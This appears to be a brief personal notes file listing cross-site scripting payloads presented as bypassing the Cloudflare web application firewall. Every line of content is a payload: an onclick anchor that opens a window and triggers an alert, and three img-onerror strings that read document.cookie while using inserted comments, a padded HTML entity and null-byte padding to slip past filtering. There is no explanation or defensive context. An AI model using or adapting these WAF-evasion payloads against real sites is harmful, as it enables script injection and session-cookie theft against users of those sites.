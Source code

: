 # NOTAS

XSS bypass Cloudflare WAF 🧱🔥😈
Payload:
```
<a href="#" onclick="var w = window.open/**/(/**/); w.document.write/**/('Hello, world!'/**/); w.document.close/**/(/**/); w.print/**/(/**/); alert/**/('B1P4$$'/**/);">Click me</a>
```

XSS Bypass Waf Cloudflare ;) Poc 
```txt
"//>//<img onerror="alert(document.cookie)/***/" src="P"/>
"//>//<img src=P onerror=alert&#0000000040document.cookie)/**/> "
>00%00%00<img onerror="alert(document.cookie)" src="P"/>00%00
```
